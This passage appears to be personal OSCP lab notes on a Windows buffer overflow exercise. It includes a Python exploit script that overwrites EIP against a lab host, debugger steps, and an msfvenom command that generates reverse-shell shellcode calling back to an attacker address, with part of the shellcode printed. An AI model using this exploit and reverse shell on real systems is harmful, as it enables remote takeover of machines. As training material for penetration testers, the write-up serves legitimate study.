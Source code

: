 Here is the script with the eip variable updated to 0x1480111e
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 5_find_return_address.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

Before running the exploit, confirm there is a JMP ESP at 0x1480111e then set a breakpoint on it.
![5ecbff4bca62282ac02029d89c73f62e.png](:/4091578dcfbe4deb96b808375711308a)

Run the exploit. Confirm that we hit the breakpoint.
![ac497b04140f562ba56b916b265fa31a.png](:/687c4bfce74e4594be6808a18ce557bc)

Single-step by pressing F7. We see we are at the JMP EDX code.
![c5bf9a6cf23c02beb8535d30b241e6e2.png](:/3c04fa55594a4043ba1e58ccaad8c0ef)

Press F7 and we see we are at the beginning of the EDX register.
![19caaecae0398a248a10edc42e1021e7.png](:/ae4a25e707d2480f9a81b4ea57c7c393)
Follow EDX 00581fb8 in dump, and we see the ample space for shellcode.
![08b7a1345c23b587270acec54a172e55.png](:/251bd4920ac14a48b828866de318a0ce)

## Generate shellcode
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
```